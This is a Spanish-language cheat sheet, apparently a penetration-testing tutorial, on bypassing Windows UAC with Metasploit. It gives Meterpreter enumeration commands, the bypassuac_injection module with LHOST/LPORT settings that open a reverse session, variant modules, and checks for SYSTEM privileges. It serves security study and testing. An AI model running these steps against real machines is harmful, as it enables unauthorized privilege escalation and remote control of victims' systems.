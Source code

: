 # Escalada de Privilegios en Windows: Bypass UAC con Metasploit

## ¿Qué es UAC?

**UAC (User Account Control)** es un mecanismo de seguridad en Windows que evita que procesos se ejecuten automáticamente con privilegios elevados, incluso si el usuario pertenece al grupo de administradores.

---

## ¿Qué permisos necesitas para Bypass UAC?

Para que el **Bypass de UAC** funcione, se requiere:

- Un usuario que pertenezca al **grupo de administradores locales**.
- Que el proceso actual **no esté elevado** (es decir, no tenga ya privilegios de administrador).

> No puedes hacer bypass UAC desde un usuario que **no tenga privilegios administrativos**.

---

## ¿Cómo saber si tienes esos permisos?

### Desde Meterpreter

1. Comprueba el usuario actual:
```bash
getuid
```

2. Enumera los privilegios actuales:
```bash
getprivs
```

3. Comprueba si está en el grupo de administradores:
```bash
shell
whoami /groups
```

Busca una entrada como:
```
BUILTIN\Administrators
```

Si aparece, el usuario es **miembro del grupo Administradores**, lo que permite intentar el bypass.

---

## Módulo de Metasploit para Bypass UAC

### Módulo base:
```bash
use exploit/windows/local/bypassuac_injection
```

### Opciones necesarias:
```bash
set SESSION <id_de_sesion_shell>
set target
set payload
set LHOST <tu_ip>
set LPORT <tu_puerto>
```

### Ejecutar:
```bash
run
```

Esto intentará lanzar un nuevo proceso elevado, conectando una nueva sesión Meterpreter.

---

## Variantes del módulo

- `bypassuac_eventvwr`
- `bypassuac_sdclt`
- `bypassuac_comhijack`
- `bypassuac_fodhelper`

Cada uno explota una vulnerabilidad diferente en la forma en que UAC trata ciertos binarios firmados por Microsoft.

---

## Validar que funcionó

Una vez abierta la nueva sesión:

```bash
getuid
```

Deberías ver algo como:
```
NT AUTHORITY\SYSTEM
```
o el nombre de usuario sin la restricción de UAC.

También puedes hacer:
```bash
getprivs
```
Y buscar privilegios como `SeDebugPrivilege`, `SeTakeOwnershipPrivilege`, etc.

